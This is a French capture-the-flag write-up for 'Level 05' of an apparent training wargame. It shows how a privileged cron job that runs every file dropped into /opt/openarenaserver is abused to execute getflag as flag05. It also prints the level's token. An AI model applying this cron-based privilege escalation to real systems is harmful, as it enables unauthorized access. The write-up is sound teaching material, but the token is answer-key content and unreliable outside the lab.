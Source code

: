 # Level 05

Cette fois ci, il n'existe aucun fichier dans le home de l'utilisateur `level05`. Encore une fois, nous exécutons la commande magique `find`.

```shell
~ find / -name level05 2> /tmp/error
/var/mail/level05
/rofs/var/mail/level05
```

L'utilisateur `level05` a donc reçu un mail.

```shell
~ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le contenu du mail est une `crontab` qui exécute avec les privilèges de `flag05` la commande `sh /usr/sbin/openarenaserver` toutes les 2 minutes.

Nous effectuons un cat sur `/usr/sbin/openarenaserver` afin d'identifier le script `shell` et son action.

```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le script récupère donc tous les fichiers dans `/opt/openarenaserver` et les executes avec `bash`, puis les supprime.

Nous avons donc `scp` un script bash qui appelle la commande `getflag` et redirige la sortie dans un fichier dans `/tmp`

```shell
~ scp -P 4242 script level05@192.168.56.101:/opt/openarenaserver
level05@192.168.56.101s password:
script                                          100%   37    28.7KB/s   00:00
~ chmod 777 /opt/openarenaserver/script
~ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
~ su level06
Password:
```

